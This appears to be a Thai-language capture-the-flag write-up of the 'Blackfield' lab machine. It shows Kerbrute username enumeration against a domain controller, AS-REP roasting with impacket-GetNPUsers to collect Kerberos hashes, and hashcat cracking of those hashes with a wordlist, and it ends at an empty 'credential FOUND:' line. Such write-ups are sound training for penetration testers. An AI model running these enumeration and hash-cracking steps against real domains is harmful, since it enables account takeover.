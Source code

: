ติดตั้ง Kerbrute เพื่อตรวจสอบชื่อผู้ใช้ที่สามารถใช้งานได้ จาก List ที่ได้มา โดย LDAP จะมีการใช้โดเมน blackfield.local ซึ่งจะเห็นได้ว่ามี ชื่อผู้ใช้อยู่ 3 ชื่อที่ใช้งานได้ 
```bash
sudo apt install golang -y
git clone https://github.com/ropnop/kerbrute.git
cd kerbrute
go build
sudo mv kerbrute /usr/local/bin/
kerbrute -h

kerbrute userenum -d 'blackfield.local' --dc  10.10.10.192 ./users.txt -v 

2025/05/22 23:55:54 >  [+] VALID USERNAME:       audit2020@blackfield.local
2025/05/22 23:57:46 >  [+] VALID USERNAME:       support@blackfield.local
2025/05/22 23:57:51 >  [+] VALID USERNAME:       svc_backup@blackfield.local

```

# AS-REQ Roaster

จากนั้นเราจะหา Credential ของชื่อผู้ใช้งานที่เราหามาได้ โดยใช้วิธีโจมตีด้วยวิธี AS-REQ Roaster 

```bash
impacket-GetNPUsers -request -format hashcat  -outputfile hashes.asreproast -usersfile validuser.txt -dc-ip 10.10.10.192 blackfield.local/
```

![](./IMG/001.png)
## Crack Hash

```bash
hashcat --help | grep -i "Kerberos"

  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol

sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force 
```

credential FOUND: 

